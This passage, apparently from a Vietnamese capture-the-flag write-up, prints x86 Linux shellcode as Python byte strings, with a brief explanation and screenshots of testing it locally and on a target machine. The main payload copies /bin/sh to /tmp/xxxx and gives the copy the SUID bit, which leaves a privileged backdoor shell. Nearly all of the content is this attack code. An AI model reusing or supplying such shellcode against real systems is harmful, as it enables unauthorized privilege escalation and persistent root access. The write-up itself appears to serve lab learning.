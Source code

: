 ```python
shellcode = "\xeb\x5e\x5f\x31\xc0\x88\x47\x07\x88\x47\x0f\x88\x47\x19\x89\x7f"
```

1. Create file SUID

```python
shellcode = "\x1a\x8d\x77\x08\x89\x77\x1e\x31\xf6\x8d\x77\x10\x89\x77\x22\x89"
shellcode += "\x47\x26\x89\xfb\x8d\x4f\x1a\x8d\x57\x26\x31\xc0\xb0\x02\xcd\x80"
shellcode += "\x31\xf6\x39\xc6\x75\x06\xb0\x0b\xcd\x80\xeb\x1d\x31\xd2\x31\xc0"
shellcode += "\x31\xdb\x4b\x8d\x4f\x26\xb0\x07\xcd\x80\x31\xc0\x8d\x5f\x10\x31"
shellcode += "\xc9\x66\xb9\x6d\x09\xb0\x0f\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80"
shellcode += "\xe8\x9d\xff\xff\xff/bin/cp8/bin/sh8/tmp/xxxx"
```

Shell này sẽ copy file `/bin/sh` sang `/tmp/xxxx` đồng thời cấp quyền SUID cho nó :v

Ví dụ sử dụng shell này trong bài trên

- Test trên máy
    
    ![Untitled](Knock%20knock%200fd187fb6e7f4817a31d17bfc775bf0d/Untitled%2048.png)
    
- Chạy trên jason
    